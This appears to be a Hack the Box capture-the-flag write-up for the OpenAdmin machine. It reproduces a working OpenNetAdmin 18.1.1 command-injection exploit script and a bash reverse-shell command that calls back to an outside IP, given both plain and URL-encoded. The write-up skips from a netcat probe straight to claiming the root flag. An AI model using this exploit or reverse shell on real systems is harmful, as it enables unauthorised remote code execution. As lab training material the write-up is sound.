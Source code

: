 # Hack the Box - Machine - OpenAdmin
Author: del_KZx497Ju 
Release Date: January 4, 2020

## Machine Description
An easy level Linux box

## Tools Used
- nmap
- gobuster


## Write Up

Looks like we have SSH on port 22 and an Apache webserver on 80

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

```

Let's Check out the webpage, it the default apache install page.

![Default Page](./img/01_webpage.png)

Lets run gobuster to see if anything else is running on the webserver

```
/music                (Status: 301) [Size: 314] [--> http://10.129.66.234/music/]
/artwork              (Status: 301) [Size: 316] [--> http://10.129.66.234/artwork/]
/sierra               (Status: 301) [Size: 315] [--> http://10.129.66.234/sierra/] 
```
We get three websites, lets check out the first one. Music

![Music Page](./img/02_music.png)

When you try to log into the music page, it asks for an update. But his enumerates that its using OpenNetAdmin version number as 18.1.1

![ona](./img/03_ONA.png)

Quick search on exploitdb reveals some PoC exploits for RCE are available.

![exploitdb](./img/04_exploitdb.png)

Lets try the [RCE exploit](https://www.exploit-db.com/exploits/47691).

```bash
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
Cool we have remote code execution:

```
$ bash ona_ex.sh http://10.129.66.234/ona/login.php
$ whoami
www-data
```

Lets get a proper shell

```
$ bash ona_ex.sh http://10.129.66.234/ona/login.php
$ bash -i >& /dev/tcp/10.10.14.35/9001 0>&1

```

No shell, but since the command is send over a curl request and there is a lot of wierd characters lets try URL encoding the reverse shell command and sending it. You can use cyber chef to url encode.

```
       cmd: bash -c 'bash -i >& /dev/tcp/10.10.14.35/9001 0>&1'
urlencoded: bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E35%2F9001%200%3E%261%27
```

```
$ bash ona_ex.sh http://10.129.66.234/ona/login.php
$ bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E35%2F9001%200%3E%261%27

```

We get a shell. Lets upload and run linpeas and see what it enumerates.

- Vulnerable to CVE-2021-4034 PwnKit (Not the intended path to exploit the box)
- mysql is running (mysql     1348  0.0  4.7 1621384 192320 ?      Sl   Aug21   0:12 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid)
- Identidy 3 users:
⋅⋅- uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
⋅⋅- uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
⋅⋅- uid=0(root) gid=0(root) groups=0(root)
- Locally Listening on a highport (tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      - )

Let netcat to that port to see what running

```
www-data@openadmin:/opt/ona/www/local/config$ nc 127.0.0.1 52846
nc 127.0.0.1 52846
hello
HTTP/1.1 400 Bad Request
```

looks like a webserver









We have the root flag!
